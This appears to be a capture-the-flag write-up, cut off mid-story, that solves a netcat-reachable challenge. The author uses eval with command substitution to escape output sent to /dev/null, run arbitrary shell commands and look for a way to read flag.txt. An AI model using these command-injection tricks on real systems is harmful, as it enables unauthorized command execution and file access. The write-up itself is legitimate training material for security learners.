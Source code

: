```bash
❯ nc challs.xmas.htsp.ro 6004
WHAT IS BOTHERING YOU???
nothing
YOUR COMPLAINT HAS BEEN RECORDED.
```

### Solution

After connecting, we can run arbitrary bash commands and escape /dev/null like so and immediately see the flag:

```bash
❯ eval $( echo flag=$(ls -la) ); echo $flag
eval flag=total 84 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 . 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 .. 
-rwxr-xr-x 1 root root 0 Dec 11 18:51 .dockerenv 
drwxr-xr-x 1 root root 4096 Dec 10 01:38 bin 
drwxr-xr-x 2 root root 4096 Sep 19 21:39 boot 
drwxr-xr-x 1 root root 4096 Dec 10 01:38 chall 
drwxr-xr-x 5 root root 340 Dec 12 13:27 dev 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 etc 
-r--r--r-- 1 root root 36 Dec 10 01:00 flag.txt 
drwxr-xr-x 2 root root 4096 Sep 19 21:39 home 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 lib 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 lib64 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 media 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 mnt 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 opt 
dr-xr-xr-x 281 root root 0 Dec 12 13:27 proc 
drwx------ 2 root root 4096 Nov 17 00:00 root 
drwxr-xr-x 3 root root 4096 Nov 17 00:00 run 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 sbin 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 srv 
dr-xr-xr-x 13 root root 0 Dec 11 15:20 sys 
drwxrwxrwt 1 root root 4096 Dec 12 13:44 tmp 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 usr 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 var
```

Unfortunately, it wasn't so simple to read it... I couldn't find `cat`, `head`, or `less`.

```bash
❯ eval $( echo flag=`cat flag.txt`); echo $flag
sh: 1: cat: not found
```

Printing out `$PATH`, 

```bash
❯ eval $( echo flag=$(echo $PATH) ); echo $flag 
eval flag=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then, poking around to see what was available, I found diff
